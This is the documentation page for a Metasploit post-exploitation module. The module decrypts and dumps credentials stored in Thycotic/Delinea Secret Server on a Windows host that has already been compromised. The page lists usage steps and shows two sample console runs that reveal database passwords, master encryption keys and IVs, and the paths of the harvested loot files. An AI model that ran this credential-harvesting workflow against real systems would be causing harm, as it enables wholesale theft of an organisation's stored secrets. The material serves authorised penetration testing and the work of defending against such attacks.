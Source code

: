 This module exports and decrypts Secret Server credentials to a CSV file; it is intended as a
post-exploitation module for Windows hosts with Delia/Thycotic Secret Server installed. Master
Encryption Key (MEK) and associated IV values are decrypted from `encryption.config` using a 
static key baked into the software; there is also support for encryption configs configured with
Windows DPAPI MachineKey protection. The module contains two actions, `dump` and `export`, the
former extracts the encrypted Secret Server database and performs decryption, and the latter
allows the encryption keys and encrypted database to be plundered for later offline decryption
in situations where expedience is necessary.

This module incorporates original research published by the authors of SecretServerSecretStealer,
a PowerShell script designed to harvest Secret Server credentials. The GitHub repo for
SecretStealer.ps1 includes tons of notes on the internals of Secret Server:

https://github.com/denandz/SecretServerSecretStealer

## Vulnerable Application
This module has been tested against Secret Server versions 8.4 through 11.2, though it may work on
earlier versions. It is intended to be run after successfully exploiting a Windows host with the
Delia/Thycotic Secret Server software installed. The module supports decryption of configuration
files that have been protected by Windows DPAPI, but does not support extraction of any secrets
if the system is configured with a Hardware Security Module (HSM).

## Verification Steps
This is a post module and requires a meterpreter session on the Microsoft Windows server host
with a configured instance of Delinea/Thycotic Secret Server installed.

1. Start msfconsole
2. Get session on Secret Server host via method of choice and background it
3. Do: `use post/windows/gather/credentials/thycotic_secretserver_dump`
4. Do: `set session <session>`
5. Do: `dump` to extract and decrypt the Secret Server database, or `export` to extract the encrypted database only

## Options

### SESSION

Which session to use, which can be viewed with `sessions -l`

## Scenarios
Windows Server 2019 host running Secret Server 11.2 using the `dump` action:

```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/thycotic_secretserver_dump
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > set session 1
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > dump

[*] Hostname THYCOTIC IPv4 10.1.0.113
[*] Decrypt database.config ...
[+] Secret Server SQL Database Connection Configuration:
[+]     Instance Name: localhost\SQLEXPRESS
[+]     Database Name: SecretServer
[+]     Database User: sa
[+]     Database Pass: !-TUwX!_-gD-wak-cugyU-0GX0$vL-evYG2
[*] Secret Server Build 11.22
[*] Decrypt encryption.config ...
[+] Secret Server Encryption Configuration:
[+]        KEY: fc35d1abcade1c180c699e10fbb3efeb
[+]     KEY256: e768c5223bafa5481faca1ee10b63fb80c699e10ffa694ce29adc66963d05109
[+]         IV: 2c2df1a68dbc29adc66041bd6e6e4ad3
[*] Performing export and decryption of Secret Server SQL database
[*] Export Secret Server DB ...
[+] 47842 rows exported, 19915 unique SecretIDs
[+] Encrypted Secret Server Database Dump: /root/.msf4/loot/20220829112535_default_10.1.0.113_thycotic_secrets_288749.txt
[+] 47842 rows loaded, 19915 unique SecretIDs
[*] Process Secret Server DB ...
[-] SecretID 1395 field 'Notes' failed to decrypt
[-] SecretID 2050 field 'Notes' failed to decrypt
[-] SecretID 2506 field 'Notes' failed to decrypt
[-] SecretID 2549 field 'Notes' failed to decrypt
[-] SecretID 2558 field 'Notes' failed to decrypt
[-] SecretID 2566 field 'Notes' failed to decrypt
[-] SecretID 2567 field 'Notes' failed to decrypt
[-] SecretID 2583 field 'Notes' failed to decrypt
[-] SecretID 3393 field 'Notes' failed to decrypt
[-] SecretID 4060 field 'Notes' failed to decrypt
[!] SecretID 4092 field 'SFTP Site' contains invalid UTF-8 and will be stored as a Base64 string in the output file
[-] SecretID 4103 field 'Notes' failed to decrypt
[-] SecretID 4174 field 'Notes' failed to decrypt
[-] SecretID 4625 field 'Notes' failed to decrypt
[-] SecretID 5393 field 'Notes' failed to decrypt
[-] SecretID 5647 field 'Notes' failed to decrypt
[-] SecretID 6018 field 'Notes' failed to decrypt
[-] SecretID 6250 field 'Notes' failed to decrypt
[-] SecretID 6263 field 'Notes' failed to decrypt
[-] SecretID 6657 field 'Notes' failed to decrypt
[-] SecretID 9169 field 'Notes' failed to decrypt
[-] SecretID 10577 field 'Notes' failed to decrypt
[-] SecretID 10777 field 'Notes' failed to decrypt
[!] SecretID 11097 field 'Notes' contains invalid UTF-8 and will be stored as a Base64 string in the output file
[-] SecretID 11319 field 'Notes' failed to decrypt
[-] SecretID 11973 field 'Notes' failed to decrypt
[-] SecretID 11974 field 'Notes' failed to decrypt
[-] SecretID 11997 field 'Notes' failed to decrypt
[!] 47842 rows processed (26 rows failed)
[*] 45117 rows recovered: 34479 plaintext, 10638 decrypted (2699 blank)
[*] 45117 rows written (2699 blank rows withheld)
[+] 19836 unique SecretID records recovered
[+] Decrypted Secret Server Database Dump: /root/.msf4/loot/20220829112547_default_10.1.0.113_thycotic_secrets_357639.txt
[*] Post module execution completed
msf6 post(multi/gather/thycotic_secretserver_dump) > 
```

Windows Server 2019 host running Secret Server 11.2 using the `export` action:
```
msf6 exploit(multi/handler) > use post/windows/gather/credentials/thycotic_secretserver_dump
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > set session 1
msf6 post(windows/gather/credentials/thycotic_secretserver_dump) > export

[*] Hostname THYCOTIC IPv4 10.1.0.113
[*] Decrypt database.config ...
[+] Secret Server SQL Database Connection Configuration:
[+]     Instance Name: localhost\SQLEXPRESS
[+]     Database Name: SecretServer_112E
[+]     Database User: (Windows Integrated)
[!] The database uses Windows authentication
[!] Session identity must have access to the SQL server instance to proceed
[*] Secret Server Build 11.22
[*] Decrypt encryption.config ...
[+] Secret Server Encryption Configuration:
[+]        KEY: 376f80b25053d74afcc321837442ddc9
[+]     KEY256: 5b0f4d7d2d89c180b62c64b881072d4cf2b6fd0487c9d4438050a4734a3ece19
[+]         IV: d933b2ad66c785891d4bc916cebdde15
[*] Performing export of Secret Server SQL database to CSV file
[*] Export Secret Server DB ...
[+] 3 rows exported, 1 unique SecretIDs
[+] Encrypted Secret Server Database Dump: /root/.msf4/loot/20220829113427_default_10.1.0.113_thycotic_secrets_175194.txt
[*] Post module execution completed